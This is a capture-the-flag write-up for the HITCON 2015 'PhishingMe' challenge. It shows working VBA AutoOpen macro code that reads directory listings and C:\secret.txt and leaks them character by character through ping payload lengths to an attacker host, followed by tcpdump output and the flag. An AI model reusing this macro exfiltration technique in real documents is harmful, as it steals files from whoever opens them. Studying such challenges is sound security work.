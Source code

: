 Title: PhishingMe

Description:

Sent me a .doc, I will open it if your subject is "HITCON 2015"! Find the flag under my file system. p.s. I've enabled Macro for you. ^_________________^ phishing.me.hitcon.2015@gmail.com.

Hint


From the information, we know this challenge is all about macro. Requirement will be,

- MS Windows
- Ms Word with Macro
- Email title with HITCON 2015
- Email Address to phishing.me.hitcon.2015@gmail.com

Once all this condition is fulfilled. We received an confirmation email from HITCON
I've read your doc. Interesting
First guess was, ping to home 
Shell ("ping -n 1 my.ip.add.ress")
TCPDUMP from home with ICMP on. Bingo, we go packets We went and wrote few more connection script like email, web and DNS. Looks like we got no luck at all. So we concluded.

- NO Outgoing TCP Allowed (** ppp solved it with DNS)

Concluded only ICMP able to to go out from the box. So, we did another test. 

> Shell ("ping -n 1 -l 2 my.ip.add.ress")

And we received 

11:29:43.643405 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2249, length 10

This is clear that we can somehow use the length to pass some data. So, first thing is. We want to know where are we.
```
strString = (ActiveDocument.Path)
For i = 1 To Len(strString)
    strHex = Hex(Asc(Mid(strString, i, 1)))
    strDec = CLng("&h" & strHex)
    strDec = strDec - 8
    MsgBox (strDec)
    'Shell ("ping -n 1 -l " & strDec & " my.ip.add.ress")
Next
```

Next From the ping with length, we convert back the Dec value back to ASCII, we got PATH Secondly, we go a "dir" 

```
Set objFSO = CreateObject("Scripting.FileSystemObject")
objStartFolder = (ActiveDocument.Path)

Set objFolder = objFSO.GetFolder(objStartFolder)
'MsgBox objFolder.Path
Set colFiles = objFolder.Files
For Each objFile In colFiles

    'MsgBox objFile.Name

    strString = objFile.Name

    For i = 1 To Len(strString)
        strHex = Hex(Asc(Mid(strString, i, 1)))
        'MsgBox strHex
        strDec = CLng("&h" & strHex)
        strDec = strDec - 8
        For iCount = 1 To 1000
        Next iCount
        Shell ("ping -n 1 -l " & strDec & " my.ip.add.ress")
    Next

    Shell ("ping -n 1 -l 34 my.ip.add.ress")
Next
```

Nothing seems to me interesting. So we change and code a little bit and do a dir on "C:\", we found secret.txt !!! Another peace of code to show what is in secret.txt 

```
Sub AutoOpen()

Dim MyString As String

'Open the text file
'(replace "MyTextFile.txt" with the name of your file)
Open "c:\secret.txt" For Input As #1

'loop through the file until the end of file marker
'is reached
Do While Not EOF(1)
    'read line of text, place it in the MyString variable
    Line Input #1, MyString
     'MsgBox (MyString)
    'you can then use whatever is in MyString for
    'your formatting purposes
Loop

'close the text file
Close #1

    strString = MyString
    'strString = "ABCD"

    For i = 1 To Len(strString)
        strHex = Hex(Asc(Mid(strString, i, 1)))
        'MsgBox strHex
        strDec = CLng("&h" & strHex)
        strDec = strDec - 8
        
        For iCount = 1 To 10000000
        Next iCount
        'MsgBox (strHex & " " & strDec)
        Shell ("ping -n 1 -l " & strDec & " my.ip.add.ress")
    Next


End Sub
```

From TCPDUMP we received 
```
11:29:41.058538 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2215, length 104 
11:29:41.058617 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2215, length 104 11:29:41.128465 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2216, length 105 
11:29:41.128542 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2216, length 105 
11:29:41.202369 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2217, length 116 
11:29:41.202441 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2217, length 116
--- More ICMP Traffic ---
11:29:44.321431 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2258, length 125
11:29:44.321527 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2258, length 125
```

By taking all the length, we got the string as 

> hitcon{m4cr0_ma1ware_1s_m4k1ng_a_c0meb4ck!!}

Done !!! 

Special Thanks to k9
